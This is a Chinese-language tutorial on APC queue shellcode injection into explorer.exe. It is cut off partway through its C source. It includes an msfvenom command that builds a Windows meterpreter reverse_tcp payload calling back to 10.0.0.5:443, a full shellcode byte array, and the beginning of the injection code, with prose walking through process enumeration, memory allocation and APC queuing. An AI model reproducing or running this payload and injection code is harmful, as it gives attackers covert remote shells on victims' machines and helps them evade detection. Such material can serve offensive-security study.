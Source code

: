 ```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c
```

我将注入 shellcode，`explorer.exe`因为通常会发生大量线程活动，因此更有可能遇到处于可警报状态的线程，该线程将启动 shellcode。我将找到我想要注入的进程并`Process32First`调用`Process32Next`：

一旦找到explorer PID，我们需要获取explorer.exe进程的句柄并为shellcode分配一些内存。

shellcode 被写入资源管理器的进程内存，此外，还声明了一个现在指向 shellcode 的 APC 例程：

如果我们编译并执行`apcqueue.exe`，我们确实可以看到 shellcode 成功注入到进程中：

```c
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>
#include <vector>

int main()
{
	unsigned char buf[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x51\x56\x48\x0f\xb7\x4a\x4a\x48\x8b\x72\x50"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x48\x8b\x52\x20\x8b"
"\x42\x3c\x41\x51\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
"\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x56\x48\xff\xc9\x4d\x31\xc9\x41\x8b\x34\x88"
"\x48\x01\xd6\x48\x31\xc0\x41\xc1\xc9\x0d\xac\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8"
"\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41"
"\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83"
"\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
"\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00"
"\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49"
"\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x42\x82\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5"
"\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b"
"\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31"
"\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41"
"\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58"
"\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5"
"\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00"
"\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58"
"\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00"
"\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68"
"\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba"
"\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9"
"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68"
"\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f"
"\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49"
"\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48"
"\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2"
"\xf0\xb5\xa2\x56\xff\xd5";
                             

	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
	HANDLE victimProcess = NULL;
	PROCESSENTRY32 processEntry = { sizeof(PROCESSENTRY32) };
	THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
```